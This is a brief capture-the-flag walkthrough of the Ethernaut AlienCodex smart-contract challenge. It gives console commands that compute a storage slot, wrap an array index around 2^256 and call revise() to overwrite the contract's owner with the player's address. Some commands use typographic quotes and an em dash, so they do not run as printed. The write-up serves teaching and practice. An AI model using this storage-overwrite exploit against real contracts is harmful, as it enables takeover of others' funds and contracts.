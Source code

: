 First we need to call the make_contact in order to interact with AlienCodex functions.

```bash
web3.utils.keccak256(web3.abi.encodeParameters([“uint256”],[1]))
```

The above command basically outputs the slot location of the first array element stored in the codex. [1] is used because this is where the array length value is stored.
We are doing this so that we can get to the slot 0 where owner variable is stored. This way we can get the position where owner is stored and revise it

```bash
i = BigInt(2 ** 256) — BigInt(p)
```

Now, we convert the hash value to BigInt and subtract it from BigInt(2²⁵⁶) to access slot0 of contract storage. This is where in the owner address is stored.

```bash
content = ‘0x’ + ‘0’.repeat(24) + player.slice(2)
```

Create a 32 byte content containing the padding and player address.

```bash
contract.revise(i, content)
```

Update the content at the location to make the player the owner of the contract.
